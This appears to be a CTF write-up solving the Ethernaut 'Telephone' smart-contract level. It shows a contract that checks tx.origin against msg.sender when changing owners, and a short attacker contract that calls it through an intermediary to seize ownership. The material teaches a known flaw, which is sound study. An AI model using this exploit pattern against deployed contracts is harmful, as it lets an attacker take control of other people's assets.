 # Task

Claim ownership of the contract below to complete this level.

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/c1fe8f04-847f-4879-8277-ad1196e20e8d)

First, lets check the owner of this contract

![image](https://github.com/user-attachments/assets/bf95721a-fc87-400a-9d1a-ed3cce80fe07)

That's the current owner of the contract

Below is the solve contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "./telephone.sol";

contract TelephoneHack {
    Telephone telecontract;

    constructor(address _address) {
        telecontract = Telephone(_address);
    }

    function hackContract(address _address) public{ 
        telecontract.changeOwner(_address);
    }
    
}
```
Lets deploy this using forge

![image](https://github.com/user-attachments/assets/1a28c0f3-036d-4412-ae4d-fcb43f5121ba)

Since ownership can be transferred if `tx.origin != msg.sender` we can call the `hackContract` function and pass in our address


![image](https://github.com/user-attachments/assets/94f13cec-4814-49dd-a905-0cf83deb3009)

Checking the owner of the contract again

![image](https://github.com/user-attachments/assets/f7be04f3-be92-4371-b83a-bcde020e9291)

We already became the owner of the contract

You can go ahead to submit the instance








































